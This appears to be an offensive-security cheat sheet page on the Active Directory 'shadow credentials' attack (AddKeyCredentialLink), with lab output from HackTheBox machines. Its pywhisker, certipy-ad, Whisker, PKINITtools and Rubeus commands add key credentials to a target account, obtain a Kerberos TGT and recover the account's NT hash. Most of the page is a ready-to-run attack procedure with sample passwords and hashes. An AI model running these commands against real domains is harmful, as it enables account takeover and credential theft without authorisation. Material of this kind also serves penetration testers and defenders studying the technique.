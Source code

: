 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["Shadow Credentials", "Pass-The-Cert", "AddkeyCredentialLink", "Active Directory", "Windows", "Whisker", "Pywhisker"]
---
```


### Privesc #1: Shadow Credential (From Linux)

{{< tab set1 tab1 >}}pywhisker{{< /tab >}}
{{< tab set1 tab2 >}}certipy-ad{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-Check \[Optional\]

```console
# Password
python3 pywhisker.py -t '<TARGET_USER>' --action list -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC_IP> --use-ldaps
```

```console {class="sample-code"}
$ python3 pywhisker.py --action list -d outdated.htb -u 'btables' -p '5myBPLPDKT3Bfq' --dc-ip 10.10.11.175 -t 'sflowers' --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

```console
# NTLM
python3 pywhisker.py -t '<TARGET_USER>' --action list -d <DOMAIN> -u '<USER>' -H '<HASH>' --dc-ip <DC_IP> --use-ldaps
```

#### 1. Add Shadow Credentials

```console
# Password
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC_IP> -t '<TARGET_USER>' --use-ldaps
```

```console {class="sample-code"}
$ python3 pywhisker.py --action add -d outdated.htb -u 'btables' -p '5myBPLPDKT3Bfq' --dc-ip 10.10.11.175 -t 'sflowers' --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3c90e8fb-0405-f373-5424-32d34084ccce
[*] Updating the msDS-KeyCredentialLink attribute of sflowers
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 3p24aKIn.pfx
[*] Must be used with password: qFhAIiIMg5ys4SQYYOst
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

```console
# NTLM
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -H '<HASH>' --dc-ip <DC_IP> -t '<TARGET_USER>' --use-ldaps
```

<br>

```console
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

#### 2. Request a TGT Using the PFX

```console
sudo ntpdate -s <DC_IP> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass '<GENERATED_PASSWORD>' '<DOMAIN>/<TARGET_USER>' '<TARGET_USER>.ccache' -dc-ip <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s 10.10.11.175 && python3 gettgtpkinit.py -cert-pfx 3p24aKIn.pfx -pfx-pass 'qFhAIiIMg5ys4SQYYOst' 'outdated.htb/sflowers' sflowers.ccache -dc-ip 10.10.11.175

2024-09-23 01:48:14,567 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-09-23 01:48:14,578 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-09-23 01:48:38,986 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-09-23 01:48:38,987 minikerberos INFO     a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
INFO:minikerberos:a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
2024-09-23 01:48:38,990 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

#### 3. Get NT Hash

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
python3 getnthash.py '<DOMAIN>/<TARGET_USER>' -key <AS_REP_ENC_KEY>
```

```console {class="sample-code"}
$ python3 getnthash.py 'outdated.htb/sflowers' -key a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
1fcdb1f6015dcb318cc77bb2bda14db5
```

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# NTLM
certipy-ad shadow auto -username '<USER>@<DOMAIN>' -hashes '<HASH>' -account <TARGET_USER> -target <DC> -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ certipy-ad shadow auto -username 'haze-it-backup$@haze.htb' -hashes '735c02c6b2dc54c3c8c6891f55279ebc' -account edward.martin -target DC01.haze.htb -dc-ip 10.129.232.50
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '40c9b346-bbf0-34fa-f9f8-173872388668'
[*] Adding Key Credential with device ID '40c9b346-bbf0-34fa-f9f8-173872388668' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID '40c9b346-bbf0-34fa-f9f8-173872388668' to the Key Credentials for 'edward.martin'
[*] Authenticating as 'edward.martin' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'edward.martin@haze.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'edward.martin.ccache'
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

{{< /tabcontent >}}

### Privesc #1: Shadow Credential (From Windows)

{{< tab set2 tab1 >}}whisker{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 0. Pre-Check \[optional\]

```console
.\whisker.exe list /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC>
```

```console {class="sample-code"}
PS C:\programdata> .\whisker.exe list /domain:outdated.htb /target:'sflowers' /dc:10.10.11.175
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Listing deviced for sflowers:
[*] No entries!
```

#### 1. Add Shadow Credentials

```console
.\whisker.exe add /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC> /password:'<PFX_PASSWORD>'
```

```console {class="sample-code"}
PS C:\programdata> .\whisker.exe add /domain:outdated.htb /target:'sflowers' /dc:10.10.11.175 /password:'Test1234'
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 06a332a6-1ef1-4e73-bb9b-f5e5d1f9e963
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAz .---[SNIP]--- TvhwICB9A= /password:"Test1234" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show
```

#### 2. Request a TGT Using the PFX File and Get NTLM Hash

```console
.\rubeus.exe asktgt /user:'<TARGET_USER>' /certificate:'<BASE64_PFX>' /password:'<PFX_PASSWORD>' /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

```console {class="sample-code"}
PS C:\programdata> .\Rubeus.exe asktgt /user:sflowers /certificate:'MIIJuAIBAz .---[SNIP]--- TvhwICB9A=' /password:"Test1234" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 10.10.11.175:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc ---[SNIP]--- F0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  9/22/2024 10:57:36 AM
  EndTime                  :  9/22/2024 8:57:36 PM
  RenewTill                :  9/29/2024 10:57:36 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  vqosgxeFibuRzlIPfnejKQ==
  ASREP (key)              :  1E1FB4543905764478F7F129026B67A6

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>


{{< /tabcontent >}}